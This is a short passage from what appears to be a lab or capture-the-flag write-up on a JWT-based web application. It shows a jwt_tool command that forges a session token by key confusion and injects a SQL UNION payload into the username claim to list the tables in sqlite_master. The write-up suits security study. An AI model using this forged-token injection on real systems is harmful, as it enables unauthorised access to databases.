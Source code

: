 <figure><img src="../../.gitbook/assets/Untitled 16 (5).png" alt=""><figcaption></figcaption></figure>

The request is valid and we got a response back. From this we can devise that the database is containing three columns.

Now we can get the table using the following command:

{% code overflow="wrap" %}
```bash
jwt_tool $(cat ./sessionToken) -I -pc username -pv "someone' and 1 = 0 union all select 1,group_concat(tbl_name),1 from sqlite_master--" -X k -pk ./public.key
```
{% endcode %}
